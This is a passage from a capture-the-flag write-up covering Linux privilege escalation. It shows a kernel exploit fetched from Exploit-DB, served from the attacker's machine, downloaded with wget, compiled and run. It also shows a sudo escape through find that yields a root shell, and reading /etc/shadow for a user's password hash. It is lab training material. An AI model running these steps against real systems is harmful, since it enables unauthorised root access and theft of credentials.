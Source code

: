 Then download it from [Exploit-DB](https://www.exploit-db.com/)

#### Start a python server
```bash
python3 -m http.server
```

#### Go to `/tmp/`

```bash
cd /tmp/
```
#### Download it to the machine
```bash
wget {ip}:8000/exploit.c
```

#### Compile and run
```bash
gcc exploit.c
./a.out
```

#### Get the flag
```bash
cat /home/matt/flag1.txt
```

---
# Privilege Escalation: `Sudo`

#### *First*
```bash
sudo -l
```

There are three binaries can run as root
#### [GTFOBINS](https://gtfobins.github.io/)

Let's use the find command to get the root
```bash
sudo find . -exec /bin/sh \; -quit
```
Now we are root!

#### Get flag2
```bash
cat /home/ubuntu/flag2.txt 
```

#### Get the hash

```bash
cat /etc/shadow | grep frank
```
